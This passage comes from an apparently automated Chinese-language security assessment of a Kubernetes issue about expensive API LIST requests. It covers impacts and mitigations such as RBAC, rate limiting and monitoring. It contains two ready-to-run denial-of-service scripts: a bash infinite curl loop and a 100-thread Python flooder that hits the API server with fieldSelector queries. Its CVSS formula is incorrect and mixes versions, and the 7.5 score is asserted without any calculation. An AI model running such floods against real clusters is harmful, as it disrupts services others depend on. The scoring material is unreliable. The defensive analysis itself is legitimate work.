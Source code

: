      ```
     Base Score = ROUNDUP(MIN((0.6 * Impact + 0.4 * Exploitability - 1.5), 10),1)
     Impact = 3.66 × Scope
     Exploitability = 8.22 × AV × AC × PR × UI
     ```

     插入具体值计算，得到CVSS基本评分在 **7.5 (High)**。

**Proof of Concept（概念验证）：**

攻击者可以编写脚本，频繁地向API服务器发送特定的LIST请求，利用`fieldSelector`参数，加重API服务器和etcd的负担。例如：

```bash
#!/bin/bash
# 无限循环发送请求
while true; do
  curl -k -X GET "https://<api-server-endpoint>/api/v1/pods?fieldSelector=spec.nodeName=<node-name>" &
done
```

或者使用多线程/多进程提高并发：

```python
import threading
import requests

def send_request():
    while True:
        requests.get('https://<api-server-endpoint>/api/v1/pods?fieldSelector=spec.nodeName=<node-name>', verify=False)

# 创建大量线程
for i in range(100):
    t = threading.Thread(target=send_request)
    t.start()
```

**可能的影响：**

- **API服务器不可用**：大量的请求会导致API服务器CPU和内存资源消耗殆尽，无法响应正常的服务请求。
- **etcd压力增加**：API服务器的大量请求会增加etcd的负载，可能导致etcd性能下降，影响整个集群的状态管理。
- **集群崩溃**：关键组件不可用可能导致整个Kubernetes集群的服务异常，影响业务运行。

**建议措施：**

- **权限控制**：确保只有经过认证和授权的用户才能访问API服务器，启用并正确配置RBAC策略，限制对敏感API的访问。
- **网络隔离**：通过网络策略和防火墙，限制API服务器的访问源，仅允许可信任的网络或IP访问。
- **限流和速率限制**：在API服务器前配置反向代理或使用Kubernetes内置的API速率限制功能，控制单个用户或IP的请求频率。
- **优化API服务器性能**：升级Kubernetes版本，优化API服务器的处理能力，或者增加API服务器的副本数量以分担负载。
- **监控和报警**：建立完善的监控系统，实时监控API服务器和etcd的性能指标，及时发现异常流量并处理。

综上所述，Issue中描述的问题存在被恶意利用的可能性，符合安全风险评估标准，建议尽快采取措施进行修复和防范。

---

## Issue #123985 Analyzing and Addressing Unforeseen Performance Issues in a Large-Scale Kubernetes Cluster
